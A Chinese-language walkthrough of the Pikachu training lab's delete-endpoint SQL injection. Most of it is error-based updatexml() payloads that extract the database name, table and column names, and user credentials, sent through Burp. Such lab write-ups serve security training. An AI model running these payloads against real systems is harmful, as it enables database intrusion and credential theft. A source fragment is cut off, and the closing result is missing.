


> 页面是留言板，点删除会访问 `sqli_del.php?id=xx`，后端 SQL：

```
delete from message where id = $_GET['id']
```

直接把 GET 参数`id`拼进 DELETE 语句，**数字型注入，没有查询回显，但支持报错注入（updatexml）**CSDN博...。

> 
> ⚠️ 注意：不要写 `or 1=1`，会把留言表全部数据删掉。

## 方法 1：报错注入（推荐，Burp 抓包 Repeater 发送）

### 1. 获取当前数据库名

payload：

```
id=1 or updatexml(1,concat(0x7e,database()),0)
```

完整 URL：

```
xxx/sqli_del.php?id=1 or updatexml(1,concat(0x7e,database()),0)
```

> 
> URL 里空格可以写成`+`或者`%20`，抓包发送更稳妥。
> 执行后页面爆出 `~pikachu`，数据库名：**pikachu**。

### 2. 爆出库内所有表名

```
id=1 or updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='pikachu')),0)
```

拿到表：`message,users`。

### 3. 爆出 users 表的列

```
id=1 or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users')),0)
```

得到列：`id,username,password`。

### 4. 查询账号密码数据

```
id=1 or updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from pikachu.users)),0)
```

> 
> updatexml 最多返回 32 字符，如果截断，用`substr()`截取：

```
id=1 or updatexml(1,substr(concat(0x7e,(select group_concat(username,0x7e,password) from pikachu.users)),2,60),0)
```


操作方式，基于burp进行攻击。

拦截时配置上述的sql注入语句，效果如下：

